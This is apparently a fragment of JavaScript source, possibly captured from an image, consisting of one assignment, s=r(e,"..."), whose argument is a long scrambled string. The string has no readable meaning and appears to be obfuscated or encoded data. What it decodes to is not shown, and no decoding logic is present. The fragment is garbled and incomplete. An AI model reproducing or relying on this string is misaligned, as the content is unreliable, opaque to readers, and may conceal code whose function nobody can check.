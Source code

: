 s=r(e,"Fcy^.wqHfBTDd,;88BBf;.^zH8,Rc.q4Td^dDB}y^,Bd,,y8HTwTT.8X^dff,.yrqdBfHBB%B8;,^.f0ddfddwcyqfT,BH;wydHfd.w;Td;D.HTwf8^8y.HLDdH%dfc.wdTDD;88.D,TcwHHHT88.,T.;.^,Hq,wc8w,Dq8^.DBq;fywHTdd,yw^TD8wo^qcd8ydHBDcgf^wBw8^.:H,,q88qDT8ZD.cTwTH{THd,ce,qyD.DByTfB,;ycH8DBr.cDTw;w.^BVd,yqy8f,8d.fB8;T^D.^TBcTqdTB<y.yfB,HywwBDBcywcT^;,.q.;,fy,qwdwB88B^.f_ddqD,fccq;Dd8BwyH8;fywfHdT8fq^TB8T.dyqHcD8c^w.T%;dfw;,^;fw,wc,HTDc;^.BTBH8;cc.qvTd.wD^88.THD,By^qDTDcfqyTw8q^DB^D.ycqfD.*cwqHw8..KfTqHD.8d.fB.^^Bw8yyBc^qqTf8..0,d.HBE,wx8q,d=odwcTTfH;ycdqfD..,T,88wcBcD,^8HwdDccqqq.D,8dH.,w^qq,wDTD8p^dffc,B^,fcBHyD.X8;D^dfaddcfT,8Bq8D.8w.;Bo;DdHcHwdTf8.fD8cwcqH,8ytq,wHTH;d^ff.c^fD,qyfqwDTGd;H^qHddfc.d^cwqdDqRw.8yDH8d-Sdwf8HqJB,88.yHC,DycHyd.18;D^8fNddcfD.cdw,dc8Bwyq,,dyfHwdiTDRq.gfd,fHf,wyfq,d.-8w;TdT...fDffX.qdT,cc.BTyH8,Tc.qATdwcT,8;^wfB;yI.q,D8bDwwT;,D^Bfd,fc,Hqw^Tc;f^.fi^dHBd,yyq8.DB;;aydHfUBf^dddfq.Td;,wcfB;yD8cww.TP;dff8#^cBwd,yqH^qddw:.Hwd8cfcHqdTd8f..;^.HBc;Kyd^BT8UBwcTd8H.yy^fBDf}.wo8&w#BBT/c8HD,qcBqdDdD..ff,;D;.Hydcz,qyq9,f.Hfw,.ycqdfyd;cT^DB*,5cdqf(H.yBy2cwHT.d8y,fEddccqT.HBf,dyfH.c^HdDBcDw;fT,fcHy^H,Dfk.wL;7.BTq;Dg;f.dwc.qcB;dq^^Bc;.^NHwd;TD8T.6fd,fq,;^yfqBdyt.;8^8f.,Qcdd8yhqcD89D.BT^H8ddc.q/Td.DT,8H.TyDfwd_zdwf8qwwTd8.^,f^d,ydqBD.;8wdT^8yy,H8dBD^(H.fB.;1H;,B^yH.dDcw.qT8zw^BB(H^dqCfw.TlwyTT8^^,qDd;cTH^DcSd;H^;Hddfc.D.cdcff*;^.cB.,By^fbD,MfccHTfD,dyvqdDf.HDc-fw.Bq;cy8f^qHDH8d.fB.^5Bf,B^,Hwd;cD8H.ffd,fy.DBy8w.d^-cw_B,;f,^yyqfD.xmBy&TwBBB8)^DcHqTTd8f..;H^,fd;^c^Hcd.cGwwT;fD,,y3qdDf.wD.9X^dT^;H^^f.dBD^oc.fB.;if=;c^fHddcTD=..(fd,fHH,wyfq,DHc.rdwBT.cBf8,.cwq;Dp%D;H^;Hddfc.Tdcww8Tdm.c,B8,wyDHcdq4,w;T^fD;cySqdDf.DDB ywdT.;By,qDdBcdqfT,aq;^^wHfd.c&B8cTwBTc4Q^,Hf,cc;JDqcTQ;d^f8c^cfw,.;cHcdc8,wHT.;w^Hfyq^D;8f..BKyfBc,Dyff_BBcDwcTH;,.y.)BB,f.qDw8,ww^HB?ddcfq.Q^qcD.8B.^TSBf;w^oTdc.wwDB8c.TBHH^dwsfw.T5^yTc8H^ffc,TycqcDTBD;B^-HddffHdDycq.DzB^;.yfH.d<qeDBhq.HTw;d.fffq8D,N.wvBd^,Hf;B^B.TqHD,8d.fB.yHB;8c^.HfdDcq.HTw8f..fB;yD8cyw.T9;dfB8B^wf8,d,..ddydqcw^^f8dfc.qA(yqcDqn.wcfB;&!BHTdfcBq.fB;B.yfc,^c,Hqw^T8;f^.ftc;H,dTyyqcDD8d#<Bd;.ywfBdccTc.Td8w.DBfH^dD/fw.TY^^TT8,.*f.,HyyyPHBDf^HBd,,^DHdq^Dy8f..BK^yTc;yyBf.d,TH8,^dff,.Hy,D^cqwDdDd^DBB;c^8^f;z,b88wkB.;tyddDyBf.DyUBqjDw8c,D^^H(DdYfdH%fwDTf8.^BfTd8;cqyT,lD.8Bw8ZdDc8qOTd8fBy8w^8BT;^y,q,dq4HwwT;fD,8yxqdDfwHDDWww.TWT,cBH,,#cwqc.DBB;aydHfcfHfdccwwB.^Bq,fy.Hg<^q,df8^wcTT8T^BH8d,DHCB.dBf;.HH;c^dq.ddE,HcTBGy,8^cH.diZdddcqwwTcDw..fc,fyw(HwwBd;f^.d,y,fc,y;c88.,B.;Myddw^BHd,}cc8Hwwfd,fy.Dc^cHdd^d%^,T,;B.^BAff8ew^Dca..BB^8+y,HfB;T8OB..BP,dHT;^y;q,d.>fw8wdDw8.H^;cy.H_Dd<fw.^HfTddcfq.&yw,Dq8f.8BBdTywH^dcTD8D.Wfd,fqf,wyyqBdBLdqX^DfT,=cdqfJHqDDw!.whT^H8yTc.qVTdq/DfU..dBDT;;8^DdTPwqHqT;8^,B.,.y,qqdw_8.,Tq;^^Dfq,fcwqTDddy.^BD;w8^wcD8cdqBTc8fywfw;^^tq,dq;8wDB88D^cBwBH8Tqddc8,wyT.TBcTHBd;ccq8TB8.SDBw,w^^fJD,cqc8H,;d^ff8,TyD^^T^8,w;BBd,y,fqdwcHqcDTdy.dTc,B^Bc^q^Tf8..*;^^,fw;*yDHqdHT^8T^ff.,%qd,.cwHBDc3T^qBw;B^HfTdBcTw8.HTq,dyfH.c.H;d,PB..T;8c..fd,cC^qwd.8,wqBw,^^cf.,Lcwq;.DT.;}ydHfNffwD,c.^8Tct7^BBy,ca8q,d!LdwcTTf.,/cdqfD.U_<dO8y.^^ffdfc.q=8HwBDf8c.TfBdHywHfd.mBqy^8fd,.y1qdyGqwD;1E;D^,fvddcfDHcwqfT,8Hw.fr,Byqc^q8Tf8..},;^,By,HyDH^dB;D.,Td;w^;H,DDcBqdDf8,wq^^fydfc.qQl,q,Df88!TwqHH,f<dwfT.^HT;Mc..ff,Dyqy.H,DdyDT^;;^,f,dByyqDDTD.yff,;^y,c^qTTf8..u,8^,BA,wc8HdH.dcXdfB8B^wf8,dDHuT.dBf;.Hc8c^df^f,88q^T,8d.fyDHDdCWdwf8cwBTT,D^,BT,cDDcdweBd;ffH;fy,Hd,^yH.8D8*^wyBZBf8c^>B,cdq^T,8w^D..DwyTqdwHD.;d^ff.ccBc,dy^yVB^YTw,TW;.^HfyfO,BcfBH8d^,BD,dd^cywfT.89Tw8q.Hfw,;yd HwDBd;f^.dH^cfdTHcfqwD.8fwyBc;qdHcHwdTf8.fw;,.DB,B08q.dwHT.;d^ff..HH,,cyf(^wyBf;.^*dT^HffdBcyHc.HBH,dyfH.Zcq8dTc,wdTw;D,HyBqdDf!.dHtDwTB88^^dHBdHcw88wDB.;-yd,g^cHcd8;Tq+Tc8S^,..B,,d^DH.;^.,Tq;f.Bc8fHD.tO.d;d.BBd;c^ff^,yyXcfDf888dBd,dywyddDUBwdTc;D.ffw,R,fH.Dd8,qcBB8yd8c,q.Dm8dDDeD.8B;,ddHcDwdTf8.f.8c.DfH;yywHfdfSBwDTqfH,DcdqfD..dDD8D.wBddd^.Hw,BccqT.HBB,dyfH.K8HTBD#dwcTT;8^Bf.q8dwt.wsBd^DBB;d^cHD,f,3c,qf;ywPf8;Dd.cnwdTf8..<fddfq^H^d;%fw.T4^^TH8}^.fc,q,..qDwPD.dBB;Ty8^.DycDwd.HBB,dyfH.0yHDd,cyq.Dw,w^wf;q8d)1.w}BdydTq;8^dHd,^yHqT.DBD;mydHfQHHfdwc.^DDw=w,D^cHzDd<fTfcyqcB,,,^8f;,,1wHwDc!Dwf^^B.dfc.qv;,q,Df888dHD;.ywq8ddmwq.TcTfy8H^,cy.qBD^c3.,Bf,,d8cdq.Dj8dBq;.y^H8HD,TcAwdTf^HDy8w.wBH,8yT.TdkecwUB,T.8,^dDdy^HyDT8B.fB8H8,yc.qjTd^8D^8DwcHD,BydHfD,cq8^.yff,.yzdycBH(dw>cwD^Hfqddcfq.i)qfTBN,.wB;HDdfc+wdTf^BT;vc.wyHHHDdkfw.;fq&Td8.cHfc,dDHnH.dBf;.H^;D^qfydw/8qd.HT^,dyfH.bHH;,cc.wfTD8q8..,fdpTqBD.Dd^DTf;8^;fwq.DG8d.fB.;z.d8.U.c^q8Tf8..?,;.HBy,cyfqdd^d6cBwfdq^cff,.,..HDD8Bw2^^fqdfc.qK88q,Tq,^.DBq;fywHTddTH88^dff,.H^d8yTq,d/cXLfHH;8^Bff,ucwH&T,BH;;ydHfd.q^D,ccqfTc8B^B..B,,d.dDB}cw
